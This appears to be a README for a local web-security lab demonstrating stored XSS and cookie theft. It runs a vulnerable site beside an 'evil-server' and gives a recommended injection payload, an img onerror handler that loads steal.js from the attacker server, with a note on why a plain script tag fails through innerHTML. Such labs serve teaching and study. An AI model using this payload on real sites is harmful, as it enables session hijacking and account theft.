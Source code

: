 # What is it about?
![Logic](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/Inkodo-2025429_34717.png)  

# How to use this?
+ `cd .\normal-site\ & npm install express body-parser`
+ `node .\app.js`
+ `cd .\evil-server\ & npm install express`
+ `node .\steal_cookie.js`
+ Open browser and visit website at `http://localhost:3000`
+ Try to post your comment on the page, and inspect the changes from browser Network/Elements Tab  
![StoredXSS](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/20250429091459.png)  
Recommended XSS payload: `<img src="x" onerror="const s=document.createElement('script');s.src='http://localhost:4000/steal.js';document.body.appendChild(s);" />`  
Not recommended XSS payload: `<script src="http://localhost:4000/steal.js"></script>`. This is because the limitations of `innerHTML`. The `<script>` tag dynamically inserted through `innerHTML` will be parsed by browser as a text node rather than an executable script.   
![Preflight Request](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/20250429091822.png)  
+ Pretend to be a normal user, revisit website at `http://localhost:3000`, and log in by entering correct username/password, so that cookie will be stored in browser:  
admin/admin123  
user1/password1  
![Cookie in browser](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/67tool-2025-04-29%2009_26_03.png)  
+ Inspect the result from terminal(evil-server)  
![Cookie Theft](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/20250429092022.png)  